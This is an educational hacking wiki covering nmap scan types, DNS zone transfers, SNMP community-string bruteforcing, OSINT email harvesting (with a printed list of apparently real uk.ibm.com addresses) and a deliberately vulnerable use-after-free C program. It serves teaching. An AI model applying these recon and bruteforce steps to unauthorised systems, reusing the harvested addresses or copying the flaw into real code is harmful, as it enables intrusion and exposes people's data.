





The Cyberclopaedia
This is an aspiring project aimed at accumulating knowledge from the world of cybersecurity and presenting it in a cogent way, so it is accessible to as large and audience as possible and so that everyone has a good resource to learn hacking from.
Experimental support for inline Mathjax is now provided using a custom preprocessor. If you find that any LaTeX is not rendered properly, please create a GitHub issue including the chapter name that contains the broken LaTeX. Furthermore, in this case you should view the Cyberclopaedia here on GitHub.
Donate XMR: 862CjhjSMYGJ9paKwii4RR5sN4yNfHPHv4YyFsFVpyjLQ9ZLMR1DFNAYaNoXNceR33Hxf3Q9LtQNfW5Db4t4zCWSNnf6xgB
The information here is for educational purposes only and I do not bear any responsibility for your own actions.

Introduction
Overview
Network scanning is the process of gathering information about a target via comlex reconnaissance techniques. The term "network scanning" refers to the procedures used for discovering hosts, ports, running services and information about the underlying OS type.
Types of scanning
Port Scanning
Lists the open ports and the services running on them. Port scanning describes the process of querying the running services on a computer by sending a stream of messages in an attempt to identify the service in question, as well as any information related to it. It involves probing TCP and UDP ports of a target system in order to determine if a service is running / listening.
Network Scanning
This is the process of discovering active hosts on a network, either for attacking them or assessing the overall network security.
Vulnerability Scanning
Reveals the presence of known vulnerabilities. It checks whether a system is exploitable through a set of weaknesses. Such a scanner consists of a catalog and a scanning engine. The catalog contains information about known vulnerabilities and exploits for them that work on a multitude of servers. The scanning engine is responsible for the logic behind the exploitation and analysis of the results.
Introduction
Nmap is a free and open source port and network scanner, which may also be used for vulnerability scanning through its scripting engine - the NSE.
Syntax
The syntax for nmap is as follows:
nmap <options> target_range
It is always good practice to run Nmap with root privileges as they are required for some of the tool's functionality.
You can do a simple scan on a single IP through the following command:
nmap <IP>

By default, Nmap scans the top 1000 most commonly used ports (these are not necssarily the ports 0-999). You can specify specific ports for scanning with the -p flag followed by a comma-separated list of ports. Specifying -p- will cause nmap to scan all ports (0-65535).

Port States
- open - an application is actively listening for TCP connections, UDP datagrams or SCTP associations on this port
- closed - the port is accessible (it receives and responds to Nmap probe packets), but there is no application listening on it
- filtered - Nmap cannot determine whether the port is open because packet filtering prevents its probes from reaching the port. Usually, the filter sends no response, so Nmap needs to resend the probe a few times in order to be sure that it wasn't dropped due to traffic congestion. This slows the scan drastically
- unfiltered - the port is accessible, but Nmap is unable to determine whether it is open or closed. Only the ACK scan, used for mapping firewall rulesets, may put ports in this state
- open|filtered - Nmap is unable to determine whether the port is open or filtered. This occurs for scan types in which open ports give no response
- closed|filtered - Nmap is unable to determine whether the port is closed or filtered. It is only used for the IP ID idle scan.
Overview
These scan types make use of a small loophole in the TCP RFC to differentiate between open and closed ports. RFC 793 dictates that "if the destination port state is CLOSED .... an incoming segment not containing a RST causes a RST to be sent in response.” It also says the following about packets sent to open ports without the SYN, RST, or ACK bits set: “you are unlikely to get here, but if you do, drop the segment, and return".
Scanning systems compliant with this RFC text, any packet not containing SYN, RST, or ACK bits will beget an RST if the port is closed and no response at all if the port is open. So long as none of these flags are set, any combination of the other three (FIN, PSH, and URG) is fine.
These scan types can sneak through certain non-stateful firewalls and packet filtering routers and are a little more stealthy than even a SYN scan. However, not all systems are compliant with RFC 793 - some send a RST even if the port is open. Some operating systems that do this include Microsoft Windows, a lot of Cisco devices, IBM OS/400, and BSDI. These scans will work against most Unix-based systems.
It is not possible to distinguish an open from a filtered port with these scans, hence why the port states will be open|filtered.
Null Scan
Doesn't set any flags. Since null scanning does not set any set flags, it can sometimes penetrate firewalls and edge routers that filter incoming packets with certain flags. It is invoked with the -sN option:

FIN Scan
Sets just the FIN bit to on. It is invoked with -sF:

Xmas Scan
Sets the FIN, PSH, and URG flags, lighting the packet up like a Christmas tree. It is performed through the -sX option:

TCP SYN Scan
- The default scan type with root privileges (
-sSoption) - It does not complete a full TCP handshake, therefore it's a bit faster and used to be more silent (it is called a silent scan, although that is no longer the case)
- Also known as a half-open scan
You can use the -sS option or omit it entirely to perform a TCP SYN scan.

This type of scan works as follows: Nmap sends a SYN packet to the target, initiating a TCP connection. The target responds with SYN ACK, telling Nmap that the port is accessible. Finally, Nmap terminates the connection before it's finished by issueing a RST packet.

TCP Connect Scan
- The default scan type when SYN scan isn't available - lacking root privileges (
-sToption) - Nmap initiates a complete TCP connection with the target
- The connection attempts are loggen onto the target
- It's usually slower


Enumerating BIND servers with CHAOS
The BIND software is the most commonly used name server software, which supports CHAOSNET queries. This can be used to query the name server for its software type and version. We are no longer querying the domain name system but are instead requesting information about the BIND instance. Our queries will still take the form of domain names - using .bind as the top-level domain. The results from such a query are returned as TXT records. Use the following syntax for quering BIND with the CHAOS class:
dig @<name server> <class> <domain name> <record type>
┌──(cr0mll@kali)-[~]-[]
└─\\( dig @192.168.129.138 chaos version.bind txt
; <<>> DiG 9.16.15-Debian <<>> @192.168.129.138 chaos version.bind txt
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 38138
;; flags: qr aa rd; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 1
;; WARNING: recursion requested but not available
;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;version.bind. CH TXT
;; ANSWER SECTION:
version.bind. 0 CH TXT "9.8.1"
;; AUTHORITY SECTION:
version.bind. 0 CH NS version.bind.
;; Query time: 0 msec
;; SERVER: 192.168.129.138#53(192.168.129.138)
;; WHEN: Tue Sep 14 16:24:35 EEST 2021
;; MSG SIZE rcvd: 73
Looking at the answer section, we see that this name server is running BIND 9.8.1. Other chaos records you can request are hostname.bind, authors.bind, and server-id.bind.
DNS Zone Transfer
A Zone transfer request provides the means for copying a DNS zone file from one name server to another. This, however, only works over TCP. By doing this, you can obtain all the records of a DNS server for a particular zone. This is done through the AXFR request type:
dig @<name server> AXFR <domain>
┌──(cr0mll0@kali)-[~]-[]
└─ \\) dig @192.168.129.138 AXFR nsa.gov
; <<>> DiG 9.16.15-Debian <<>> @192.168.129.138 AXFR nsa.gov
; (1 server found)
;; global options: +cmd
nsa.gov. 3600 IN SOA ns1.nsa.gov. root.nsa.gov. 2007010401 3600 600 86400 600
nsa.gov. 3600 IN NS ns1.nsa.gov.
nsa.gov. 3600 IN NS ns2.nsa.gov.
nsa.gov. 3600 IN MX 10 mail1.nsa.gov.
nsa.gov. 3600 IN MX 20 mail2.nsa.gov.
fedora.nsa.gov. 3600 IN TXT "The black sparrow password"
fedora.nsa.gov. 3600 IN AAAA fd7f:bad6:99f2::1337
fedora.nsa.gov. 3600 IN A 10.1.0.80
firewall.nsa.gov. 3600 IN A 10.1.0.105
fw.nsa.gov. 3600 IN A 10.1.0.102
mail1.nsa.gov. 3600 IN TXT "v=spf1 a mx ip4:10.1.0.25 ~all"
mail1.nsa.gov. 3600 IN A 10.1.0.25
mail2.nsa.gov. 3600 IN TXT "v=spf1 a mx ip4:10.1.0.26 ~all"
mail2.nsa.gov. 3600 IN A 10.1.0.26
ns1.nsa.gov. 3600 IN A 10.1.0.50
ns2.nsa.gov. 3600 IN A 10.1.0.51
prism.nsa.gov. 3600 IN A 172.16.40.1
prism6.nsa.gov. 3600 IN AAAA ::1
sigint.nsa.gov. 3600 IN A 10.1.0.101
snowden.nsa.gov. 3600 IN A 172.16.40.1
vpn.nsa.gov. 3600 IN A 10.1.0.103
web.nsa.gov. 3600 IN CNAME fedora.nsa.gov.
webmail.nsa.gov. 3600 IN A 10.1.0.104
www.nsa.gov. 3600 IN CNAME fedora.nsa.gov.
xkeyscore.nsa.gov. 3600 IN TXT "knock twice to enter"
xkeyscore.nsa.gov. 3600 IN A 10.1.0.100
nsa.gov. 3600 IN SOA ns1.nsa.gov. root.nsa.gov. 2007010401 3600 600 86400 600
;; Query time: 4 msec
;; SERVER: 192.168.129.138#53(192.168.129.138)
;; WHEN: Fri Sep 17 22:38:47 EEST 2021
;; XFR size: 27 records (messages 1, bytes 709)
Introduction
LDAP (Lightweight Directory Access Protocol) is a protocol which enables the locating of organizations, individuals, and other resources such as files and devices in a network.
An LDAP directory may be split across multiple servers. Each server can have a version of the total directory which is periodically synchronized. An LDAP server is called a Directory System Agent (DSA).
LDAP directories are organised in a tree hierarchy as follows:
- The root directory
- Countries
- Organisations
- Organisational units (OUs) - divisions and departments
- Individuals - these can be people, files, printers, etc.
Introduction
You will need working knowledge of SNMP in order to follow through.
SNMP Enumeration using snmp-check
snmp-check is a simple utility for basic SNMP enumeration. You only need to provide it with the IP address to enumerate:
snmp-check [IP]
Furthermore, you have the following command-line options:
-p: Change the port to enumerate. Default is 161.-c: Change the community string to use. Default ispublic-v: Change the SNMP version to use. Default is v1.
There are additional arguments that can be provided but these are the salient ones.

SNMP Enumeration using snmpwalk
snmpwalk is a much more versatile tool for SNMP enumeration. It's syntax is mostly the same as snmp-check:

Bruteforce community strings with onesixtyone
Notwithstanding its age, onesixtyone is a good tool which allows you to bruteforce community strings by specifying a file instead of a single string with its -c option. It's syntax is rather simple:


What are you looking for?
The goal of OSINT (OpenSource Intelligence Gathering) is to obtain information about the victim. This is passive reconnaissance as it doesn't interact with the target systems at all and is therefore not detectable. You should be generally looking for the following:
- usernames, profile names and email addresses
- passwords, PINs, private keys
- domain names
- hostnames
- software and OS types, versions, and names
- IP addresses
- technical documentation
Where can you find this information?
- social media (Facebook, Instagram, LinkedIn, Twitter, YouTube, etc.)
- personal websites
- accounts in forums and common platforms such as Github
- public databases (wireless registrars, ICANN, domain name registrars, libraries, and even phone directories)
- peer-to-peer sharing networks
What is recon-ng?
Recon-ng is a powerful open-source framework for conducting OSINT. It is available at https://github.com/lanmaster53/recon-ng
Setup
recon-ng comes pre-installed with Kali, but can be downloaded on Debian-based distros through the apt package manager.
sudo apt install recon-ng
For many of the modules you will need to add API keys. More on that you can read here.
You will need to install any modules before using them. You can install all modules with the following command inside recon-ng:
marketplace install all
[recon-ng][default] > marketplace install all
[*] Module installed: discovery/info_disclosure/cache_snoop
[*] Module installed: discovery/info_disclosure/interesting_files
[*] Module installed: exploitation/injection/command_injector
[*] Module installed: exploitation/injection/xpath_bruter
[*] Module installed: import/csv_file
[*] Module installed: import/list
[*] Module installed: import/masscan
[*] Module installed: import/nmap
--snip--
[*] Reloading modules...
You will also see errors for any API keys you haven't set up yet:
[!] 'github_api' key not set. github_commits module will likely fail at runtime. See 'keys add'.
[!] Module 'recon/netblocks-companies/censys_netblock_company' disabled. Dependency required: ''censys''.
[!] 'whoxy_api' key not set. whoxy_whois module will likely fail at runtime. See 'keys add'.
[!] Module 'recon/domains-companies/censys_companies' disabled. Dependency required: ''censys''.
[!] 'bing_api' key not set. bing_linkedin_contacts module will likely fail at runtime. See 'keys add'.
[!] 'github_api' key not set. github_users module will likely fail at runtime. See 'keys add'.
[!] Module 'recon/hosts-hosts/censys_hostname' disabled. Dependency required: ''censys''.
[!] Module 'recon/hosts-hosts/censys_ip' disabled. Dependency required: ''censys''.
[!] 'ipinfodb_api' key not set. ipinfodb module will likely fail at runtime. See 'keys add'.
--snip--
Workflow
-
Workspaces - recon-ng organises gathered information into workspaces, which are managed with the
workspacescommand. Workspaces are stored in~/.recon-ng/workspaces-
create a workspace:
workspaces create <name>[recon-ng][default] > workspaces create MHN [recon-ng][MHN] > -
list all workspaces:
worspaces list
-
-
Modules - recon-ng organises its functionality into the so-called modules which need to be installed before they may be used.
-
load a module:
modules load <name>
-
run a module:
run[recon-ng][MHN][profiler] > run [!] Source contains no input.
-
Modules
profiler
This module is a profile collector - it searches the Web for user profiles belonging to target individuals and stores any information it finds in the recon-ng database. It uses a table called profiles as its source.
- insert a username into the table:
db insert profiles <username>~~~~[recon-ng][MHN][profiler] > db insert profiles testuser~~~~ [*] 1 rows affected. [recon-ng][MHN][profiler] > show profiles +---------------------------------------------------------------------+ | rowid | username | resource | url | category | notes | module | +---------------------------------------------------------------------+ | 1 | testuser | | | | | user_defined | +---------------------------------------------------------------------+ [*] 1 rows returned- you can also insert an e-mail address or just the first part of one (without the @ and domain)
- inserting multiple usernames and/or e-mail addresses is also possible
What is theHarvester?
theHarvester is a powerful tool for gathering emails, names, subdomains, IPs, and URLs using a multitude of publicly available data sources. The tool is primarily a passive reconnaissance tool, however, it does employ some active reconnaissance, too. The active aspects are the DNS brute force and the screenshots it can take of any subdomains that were found. The GitHub page for theHarvester is located at https://github.com/laramies/theHarvester.
Email and subdomain harvesting
All you need to get started is a domain name. You specify it with the -d argument. You need to provide a data source using the -b option. These are the sources you can choose from:
baidu, bing, bingapi, dogpile, google, googleCSE, googleplus, google-profiles, linkedin, pgp, twitter, vhost, virustotal, threatcrowd, crtsh, netcraft, yahoo, all
This is a simple theHarvester query:
theHarvester -d kali.org -b google

Additional options:
-l- limit the number of results to work with-s- start in the specified result number-h- use SHODAN database to query discovered hosts
Using whois for gathering domain name and IP address information
whois is a tool for finding domain name and IP address information which can be used as part of your OSINT gathering because it uses public data sources. You can use it as follows:
whois <hostname>
┌──(backslash0@kali)-[~]-[]
└─\\( whois tesla.com 1 ⨯
Domain Name: TESLA.COM
Registry Domain ID: 187902_DOMAIN_COM-VRSN
Registrar WHOIS Server: whois.markmonitor.com
Registrar URL: http://www.markmonitor.com
Updated Date: 2020-10-02T09:07:57Z
Creation Date: 1992-11-04T05:00:00Z
Registry Expiry Date: 2022-11-03T05:00:00Z
Registrar: MarkMonitor Inc.
Registrar IANA ID: 292
Registrar Abuse Contact Email: abusecomplaints@markmonitor.com
Registrar Abuse Contact Phone: +1.2083895740
Domain Status: clientDeleteProhibited https://icann.org/epp#clientDeleteProhibited
Domain Status: clientTransferProhibited https://icann.org/epp#clientTransferProhibited
Domain Status: clientUpdateProhibited https://icann.org/epp#clientUpdateProhibited
Domain Status: serverDeleteProhibited https://icann.org/epp#serverDeleteProhibited
Domain Status: serverTransferProhibited https://icann.org/epp#serverTransferProhibited
Domain Status: serverUpdateProhibited https://icann.org/epp#serverUpdateProhibited
Name Server: A1-12.AKAM.NET
Name Server: A10-67.AKAM.NET
Name Server: A12-64.AKAM.NET
Name Server: A28-65.AKAM.NET
Name Server: A7-66.AKAM.NET
Name Server: A9-67.AKAM.NET
Name Server: EDNS69.ULTRADNS.BIZ
Name Server: EDNS69.ULTRADNS.COM
Name Server: EDNS69.ULTRADNS.NET
Name Server: EDNS69.ULTRADNS.ORG
DNSSEC: unsigned
URL of the ICANN Whois Inaccuracy Complaint Form: https://www.icann.org/wicf/
>>> Last update of whois database: 2021-09-14T09:01:10Z <<<
Using host for quick lookups
host is DNS querying tool which can be used for quick lookups. It will often return more than a single IP address:
host <hostname or IP>
┌──(backslash0@kali)-[~]-[]
└─ \\) host google.com
google.com has address 172.217.169.174
google.com has IPv6 address 2a00:1450:4017:80a::200e
google.com mail is handled by 10 aspmx.l.google.com.
google.com mail is handled by 20 alt1.aspmx.l.google.com.
google.com mail is handled by 40 alt3.aspmx.l.google.com.
google.com mail is handled by 30 alt2.aspmx.l.google.com.
google.com mail is handled by 50 alt4.aspmx.l.google.com.
You can also do reverse name lookups by supplying an IP address:
┌──(backslash0@kali)-[~]-[]
└─\\( host 8.8.8.8
8.8.8.8.in-addr.arpa domain name pointer dns.google.
A special domain in-addr.arpa is used for reverse DNS lookups. You can read more about it here.
Querying name servers with dig
dig is a tool for performing DNS queries. It can be used to request specific resource records such as the SOA.
dig <domain> SOA
┌──(backslash0@kali)-[~]-[]
└─ \\) dig google.com SOA
; <<>> DiG 9.16.15-Debian <<>> google.com SOA
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 41904
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1
;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; MBZ: 0x0005, udp: 512
;; QUESTION SECTION:
;google.com. IN SOA
;; ANSWER SECTION:
google.com. 5 IN SOA ns1.google.com. dns-admin.google.com. 396314134 900 900 1800 60
;; Query time: 8 msec
;; SERVER: 192.168.129.2#53(192.168.129.2)
;; WHEN: Tue Sep 14 15:43:28 EEST 2021
;; MSG SIZE rcvd: 89
We can see that the SOA is listed as ns1.google.com in the ANSWER SECTION. You can find the IP of this name server with dig, too.
┌──(backslash0@kali)-[~]-[]
└─\\( dig ns1.google.com
; <<>> DiG 9.16.15-Debian <<>> ns1.google.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 41311
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1
;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; MBZ: 0x0005, udp: 512
;; QUESTION SECTION:
;ns1.google.com. IN A
;; ANSWER SECTION:
ns1.google.com. 5 IN A 216.239.32.10
;; Query time: 43 msec
;; SERVER: 192.168.129.2#53(192.168.129.2)
;; WHEN: Tue Sep 14 15:47:51 EEST 2021
;; MSG SIZE rcvd: 59
Note that usually the SOA for domains of smaller organizations, isn't actually a part of that domain, but is instead a server provided by a hosting company.
Notice how in the answer section for google.com there was a dns-admin.google.com domain? That's actually not a domain, it's an email address and should be read as dns-admin@google.com. Yep, DNS stores emails in zone files, too. But how do you figure out which one is a hostname and which is an email address? The email address comes last.
dig can also be used to query specific name servers with the following syntax:
dig @<name server> <domain>
┌──(backslash0@kali)-[~]-[]
└─ \\) dig @192.168.129.138 nsa.gov
; <<>> DiG 9.16.15-Debian <<>> @192.168.129.138 nsa.gov
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 48156
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 1
;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;nsa.gov. IN A
;; AUTHORITY SECTION:
nsa.gov. 600 IN SOA ns1.nsa.gov. root.nsa.gov. 2007010401 3600 600 86400 600
;; Query time: 0 msec
;; SERVER: 192.168.129.138#53(192.168.129.138)
;; WHEN: Tue Sep 14 15:57:47 EEST 2021
;; MSG SIZE rcvd: 81
Here we notice that there is no ANSWER SECTION, but there is an AUTHORITY SECTION. The queried server didn't reply with a direct answer to our request but instead pointed us to the name server responsible for answering queries about nsa.gov, which turns out to be ns1.nsa.gov.
Introduction
Goolge can be a very powerful tool in your OSINT toolkit. Google dorking or Google hacking is the art of using specially crafted Google queries to expose sensitive information on the Internet. Such a query is called a Google dork.
You may find all sorts of data and information, including exposed passwd files, lists with usernames, software versions, and so on.
Note: If you find such an exposed web server, do NOT click on the links from the search results. Such an act may be considered illegal! Only do this if you have written permission from the target system's owner.
A good resource for finding Google dorks is the Google Hacking Database located at https://www.exploit-db.com/google-hacking-database.
You shouldn't enter any spaces between the advanced search operator and the query.
Common operators
site: - restricts the search results to those only on the specified domain or site
inurl: - restricts results to pages containing the specified word in the URL
allinurl: - restricts results to pages containing all the specified words in the URL
intitle: - restricts results to pages containing the specified word in the title
allintitle: - restricts results to pages containing all the specified words in the title
inanchor: - restricts results to pages containing the specified word in the anchor text of links located on that page
- an anchor text is the text displayed for links instead of the URL
allinanchor: - restricts results to pages containing all the specified terms in the anchor text of links located on that page
cache: - displays Google's cached version of the webpage instead of the current version
link: - searches for pages that contain links pointing to the specified site or page
- you can't combine a link operator with a regular keyword query
- combining link: with other advanced search operators may not yield all the matching results
related: - displays websites similar or related to the one specified
info: - finds information about a specific page
location: - finds location information about a specific query
filetype: - restricts results to the specified filetype
Grabbing E-Mails from Google using goog-mail.py
goog-mail.py is a useful script used for getting email addresses from Google search results. Its author is unknown, but the script is available in many different places online.
- You will need to download the script from https://github.com/leebaird/discover/blob/master/mods/goog-mail.py (or any other place you found it)
wget https://raw.githubusercontent.com/leebaird/discover/master/mods/goog-mail.py
┌──(backslash0㉿kali)-[~/MHN/Reconnaissance/OSINT]
└─\\( wget https://raw.githubusercontent.com/leebaird/discover/master/mods/goog-mail.py 1 ⨯
--2021-09-06 10:05:18-- https://raw.githubusercontent.com/leebaird/discover/master/mods/goog-mail.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.110.133, 185.199.108.133, 185.199.111.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.110.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2103 (2.1K) [text/plain]
Saving to: ‘goog-mail.py’
goog-mail.py.1 100%[========================================================================================================================================>] 2.05K --.-KB/s in 0s
2021-09-06 10:05:18 (41.9 MB/s) - ‘goog-mail.py’ saved [2103/2103]
- Run the script providing a
domain_name
python2 goog-mail.py [domain_name]
┌──(backslash0㉿kali)-[~/MHN/Reconnaissance/OSINT]
└─ \\) python2 goog-mail.py uk.ibm.com
ukclubom@uk.ibm.com
martyn.spink@uk.ibm.com
gfhelp@uk.ibm.com
iand_ferguson@uk.ibm.com
graham.butler@uk.ibm.com
laurence.carpanini@uk.ibm.com
Pensions@uk.ibm.com
Bennett@uk.ibm.com
ibm_crc@uk.ibm.com
brian.mcglone@uk.ibm.com
wakefim@uk.ibm.com
- Make sure the emails look valid
Other tools
Another very good tool for this purpose is theHarvester.
Exploitation
Binary Exploitation
Heap Exploitation
Exploitation techniques for the heap are different from those which work on the stack. In general, heap exploitation is more difficult and warrants creativity in order for an attack to be successful.
Heap exploitation usually relies on the already implemented logic of a binary and abuses it by providing the program with malicious data. A very common attack goal is to force the program to allocate two structs at the same memory, thereby corrupting them and possibly overwriting any function pointers or causing further overflows on the stack.
Another common technique is to force the heap manager to allocate and write to memory that is actually outside the heap, possibly overwriting the GOT or even just replacing blank return addresses.
Introduction
A use-after-free vulnerability occurs when we are allowed to write to an already freed chunk as if it were still a valid allocation. The next time malloc is invoked with that particular chunk size, a pointer to the same memory where the previously freed chunk was will be returned. This means that the now in-use chunk actually has the malicious data we put into that memory.
Such vulnerabilities occur when a pointer to heap memory is freed, but that pointer is still used afterwards.
Writing to the free chunk also allows for messing with the linked lists pointers. Overwriting the fwd pointer with a value that points outside the heap can result in the modification of arbitrary memory.
Example
use_after_free_logic.c:
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
struct User
{
char Username[32];
int IsLoggedIn;
};
struct Service
{
char Name[32];
int IsEnabled;
};
int main(void)
{
char input[128];
struct User* user = NULL;
struct Service* srv = NULL;
while(1)
{
printf("\nType 'register [username]' in order to create a new user.\n");
printf("Type 'login' to login as a user. \n");
printf("Type 'service [name]' to create a new service. \n");
printf("Type 'logout' to log out of the current user. \n");
if(fgets(input, sizeof(input), stdin) == NULL) break;
if(strncmp(input, "register ", 9) == 0)
{
user = malloc(sizeof(struct User));
if(strlen(input + 9) < 31)
{
strcpy(user->Username, input + 9);
user->IsLoggedIn = 0;
}
}
if(strncmp(input, "login", 5) == 0)
{
printf("Login successful. \n");
user->IsLoggedIn = 1;
}
if(strncmp(input, "logout", 6) == 0)
{
free(user);
}
if(strncmp(input, "service ", 8) == 0)
{
srv = malloc(sizeof(struct Service));
if(strlen(input + 8) < 31)
{
strcpy(srv->Name, input + 8);
}
printf("Executing service...\n");
if(srv == NULL)
{
printf("Error: Service does not exists.\n");
}
else if(srv->IsEnabled)
{
printf("Service successfully executed.\n");
break;
}
else
{
printf("Error: Service is not enabled.\n");
}
}
}
return 0;
}
Our goal is to successfully get to the "Service successfully executed." message.
Looking at the above code, we see that there are two structs - User and Service - with essentially the same memory layout. This programme appears to be some sort of a simple user/service manager. At first glance, we can register a new user with a given username, log into that user, log out of that user and create and attempt to run a service.
Let's see what happens, if we run the program as intended:

We witness an error telling us that the service has not been enabled. Hmm, let's take a closer look at the Service struct. It is comprised of a 32 character name and a flag telling us whether or not the service has been enabled. Furthermore, we notice that the User struct has essentially the same memory layout. Now, this could serve as an attack surface if we manage to force the program to allocate two of those structs - the User and the Service - in the same memory space.
When a heap chunk is freed, if a new chunk of the exactly same size is requested in a reasonable time-frame, malloc will return a pointer to that original freed chunk. Most of the data that was present in this chunk will then still remain intact and could corrupt the new chunk.
